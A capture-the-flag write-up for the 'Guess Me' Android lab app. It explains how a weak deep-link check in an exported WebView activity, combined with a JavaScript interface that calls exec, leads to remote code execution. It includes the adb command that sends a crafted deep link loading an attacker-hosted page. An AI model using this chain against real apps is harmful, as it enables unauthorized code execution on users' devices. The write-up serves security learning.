

# Guess Me
> Exploit a Deep Link Vulnerability for Remote Code Execution: Your mission is to manipulate the deep link functionality in the "Guess Me" Android application, allowing you to execute remote code and gain unauthorized access.

# Dist
`[your-uname.ovpn]` `[com.mobilehackinglab.guessme.apk]`

## About the Challenge
Given 2 files namely `[your-uname.ovpn]` `[com.mobilehackinglab.guessme.apk]`

## How to solve?
I first run the vpn with:
```
openvpn test.ovpn
```
after that I can try to decompile in jadx-gui


First, I check the AndroidManifest.xml file to check permissions etc.

There are several important things here, namely:
```
<uses-sdk
    android:minSdkVersion="24"
    android:targetSdkVersion="34"/>
<uses-permission android:name="android.permission.INTERNET"/>
<application>
...snippet...
    <activity
        android:name="com.mobilehackinglab.guessme.MainActivity"
        android:exported="true">
        <intent-filter>
            <action android:name="android.intent.action.MAIN"/>
            <category android:name="android.intent.category.LAUNCHER"/>
        </intent-filter>
    </activity>
    <activity
        android:name="com.mobilehackinglab.guessme.WebviewActivity"
        android:exported="true">
        <intent-filter>
            <action android:name="android.intent.action.VIEW"/>
            <category android:name="android.intent.category.DEFAULT"/>
            <category android:name="android.intent.category.BROWSABLE"/>
            <data
                android:scheme="mhl"
                android:host="mobilehackinglab"/>
        </intent-filter>
    </activity>
```
result:
1. using minsdkversion: 24
2. requires internet permission
3. there are 2 activities, namely .MainActivity and .WebviewActivity. .MainActivity will be run at launch and is the main, then .WebviewActivity will be run when getting a url sent to android because of the android.intent.action.VIEW permission and also has permission to access the android.intent.category.BROWSABLE browser.

The second step, I tried to check the main activity, namely `.MainActivity`
actually this is a regular activity that I might think of to bypass compare valid numbers to get secretNumber.


after checking there is nothing that can be bypassed, maybe a func or something else, this is just a comparison of true or false with if else. Okay, even if I can get secretNumber here, there is no func that supports execution, why execution? because the question asks to do rce (remote code execution).


I tried to check again in more depth, okay actually here there is a function that will be run when I click the info button, that function will direct to access .WebviewActivity


The third step, checking second activity .WebviewActivity
when created .WebviewActivity will run 2 functions that might be useful here, namely


loadAssetIndex() will direct the default url is file:///android_asset/index.html if the webView exists which has actually been defined in res/layout/activity_web.xml


then the handleDeepLink() function will check if isValidDeepLink(uri)=true then run loadDeepLink(uri) which will open the uri. 

Then how to make it true?


There are 2 parts of the conditioning, namely for the first the main domain must be the mhl / https protocol and the host is mobilehacking.lab, then the second part must contain the url parameter and must contain the value mobilehackinglab.com

Okay, if I succeed in directing it to open the uri that I gave, then how do I get rce?

It turns out there is a class that I am really looking forward to. There is a func in the JavaScriptInterface class that directs the exec func for the Time param. Okay, now I understand the flow

1. Send the uri to Android that uses the mhl or https protocol and the mobilehacking.lab host
2. Add a query string with the param name = url and the value mobilehacking.com
3. And use the getTime func to input the command for rce.

actually i can see my html template in assets/index.html, i just change the value to the required command, and deploy with python simple http server.


I run the webserver


also run adb to connect to the android


this is the adb command to send our uri
```
adb shell am start -a "android.intent.action.VIEW" -d "mhl://mobilehackinglab?url=http://10.11.3.4:8181/index.html?test=mobilehackinglab.com""

```
Alhamdulillah, here are the results


```
u0_a111
```
